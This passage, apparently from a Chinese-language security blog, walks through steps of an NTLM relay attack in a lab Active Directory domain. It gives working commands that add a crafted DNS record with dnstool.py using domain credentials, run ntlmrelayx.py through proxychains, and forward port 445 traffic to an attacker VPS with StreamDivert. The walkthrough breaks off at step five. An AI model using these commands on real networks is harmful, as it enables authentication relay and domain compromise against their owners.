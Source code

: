   
  
2.   
向域控添加   
DNS 解析记录  
，此时需要将解析指向入口机器 IP   
192.168.214.130  
。  
  

```
python dnstool.py -u luckytom.com\domainuser01 -p User01!@# -r badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.214.130 --action modify 192.168.214.134 --tcp
＃ 这里必须加 --tcp 参数将 UDP 封装在 TCP中进行 DNS 查询
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2El9ECSwYiaZtYHV24uWcSOibialo34w5EuXhJddAbBu4hHcOSBQajemE3cw/640?wx_fmt=png&from=appmsg "")  
  
  
3  
.  
   
在   
VPS  
 开启监听。如果是 Windows 主机，则使  
用  
--smb-port   
指定  
一个端口。  
  
注意这里需要使用   
proxychains  
 来运行   
ntlmrelayx.py  
 ，因为 VPS 接收到目标机器的验证请求之后需要通过   
iox  
 隧道将其反射回内网。具体原理可以参考上一篇文章。  

```
proxychains python3 ntlmrelayx.py -t 192.168.214.135 -smb2support
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElfH6XY55PI6SvLlHHlic93ic817LicnyybF396Dl0hibAib7XofI34m5FDicw/640?wx_fmt=png&from=appmsg "")  
  
  
4.   
在入口机搭建隧道，将本地 445 端口入站流量转发到远程 VPS 主机的监听端口。  
  
StreamDivert  
 配置文件如下：  

```
tcp < 445 0.0.0.0 -> 192.168.56.10 445
```


```
5. 加载配置文件启动转发：
```
